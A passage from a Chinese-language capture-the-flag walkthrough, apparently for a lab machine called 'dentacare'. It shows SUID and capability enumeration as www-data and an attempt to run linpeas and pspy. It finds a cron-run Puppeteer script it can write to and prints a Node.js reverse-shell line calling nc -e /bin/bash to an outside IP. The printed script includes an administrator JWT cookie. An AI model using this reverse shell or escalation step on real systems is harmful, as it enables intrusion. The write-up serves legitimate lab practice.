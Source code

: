 ```bash
/usr/bin/su
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/authbind/helper
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
(remote) www-data@dentacare:/var/www/html$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```

尝试甩`linpeas.sh`进去以及`pspy64`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101698.png" alt="image-20240528202035848" style="zoom:50%;" />

`pspy64`一直出错，只能手动查了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405282101699.png" alt="image-20240528203125629" style="zoom:50%;" />

发现存在定时任务，且具有写的权限：

```bash
(remote) www-data@dentacare:/tmp$ ls -l /opt/appli/.config/read_comment.js
-rw-r--r-- 1 www-data www-data 1063 Apr 12 20:04 /opt/appli/.config/read_comment.js
```

尝试反弹shell：

```bash
require('child_process').exec('nc -e /bin/bash 192.168.0.143 1234')
```

```bash
(remote) www-data@dentacare:/tmp$ cd /opt/appli/.config/
(remote) www-data@dentacare:/opt/appli/.config$ cat read_comment.js 
const puppeteer = require('puppeteer');

(async () => {
    const browser = await puppeteer.launch({
        headless: true,
        args: ['--no-sandbox', '--disable-setuid-sandbox']
    });
    const page = await browser.newPage();

    const cookies = [{
        'name': 'Authorization',
        'value': 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJEZW50YUNhcmUgQ29ycG9yYXRpb24gIiwiaWF0IjoxNzEyNTc0NTEyLCJleHAiOjE3NDQxMTA1MTIsImF1ZCI6ImRlbnRhY2FyZS5obXYiLCJzdWIiOiJoZWxwZGVza0BkZW50YWNhcmUuaG12IiwiR2l2ZW5OYW1lIjoiUGF0cmljayIsIlN1cm5hbWUiOiJQZXRpdCIsIkVtYWlsIjoiYWRtaW5AZGVudGFjYXJlLmhtdiIsIlJvbGUiOlsiQWRtaW5pc3RyYXRvciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ.FIMxmUCOL3a4ThN5z-7VDN8OxBK7W0krHlcVktAiZtx3KXSQsbno1q1MRUL9JMPTJeqoTr-bRL2KWyr5Kv7JnQ',
        'url': 'http://localhost:80'
    }];

    await page.setCookie(...cookies);

    await page.goto('http://localhost:80/view-all-comments');

    console.log(`Page visitée avec cookie spécifié à ${new Date().toISOString()}`);

    await page.waitForTimeout(10000);

    await browser.close();
```